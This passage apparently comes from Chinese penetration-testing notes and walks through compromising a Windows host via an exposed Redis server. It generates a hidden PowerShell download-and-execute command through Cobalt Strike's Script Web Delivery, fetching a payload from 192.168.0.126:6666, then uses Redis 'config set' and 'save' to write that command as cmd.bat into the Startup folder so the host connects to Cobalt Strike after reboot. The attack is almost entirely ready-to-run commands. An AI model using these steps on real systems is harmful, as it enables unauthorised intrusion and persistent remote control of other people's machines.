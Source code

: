 <a-checkbox checked>`Attacks -> Web Drive-By -> Script Web Delivery`</a-checkbox></br>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628610432546-2e313488-1ab1-42f2-bf37-fb074693c30a-20220415151326919.png)

生成 Powershell 语句

```php
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))"
```

 执行Redis命令写入语句

```php
192.168.0.123:6379> config set dir "C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
OK
192.168.0.123:6379> config set dbfilename cmd.bat
OK
192.168.0.123:6379> set x "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))\"\r\n\r\n"
OK
192.168.0.123:6379> save
OK
```

当主机重启时就会执行命令上线 CobaltStrike

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628682645780-adbda105-6e56-481d-a4c9-b34e6bd5908b-20220415143203710.png)

